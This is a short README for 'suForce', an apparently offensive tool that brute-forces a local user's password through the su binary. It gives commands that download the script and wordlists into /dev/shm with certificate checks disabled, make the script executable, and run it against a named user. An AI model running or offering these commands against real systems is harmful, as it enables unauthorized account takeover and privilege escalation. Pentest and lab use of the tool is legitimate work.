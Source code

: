 # suForce

**suForce allows you to crack a user's password using brute force with the su binary.**

![](/screenshot.png)

- <kbd>Download suForce</kbd>

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
chmod +x suForce
```

- <kbd>Download Wordlist (Optional)</kbd>

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Usage</kbd>

```cmd
./suForce -u <USER> -w <WORDLIST>
```

---
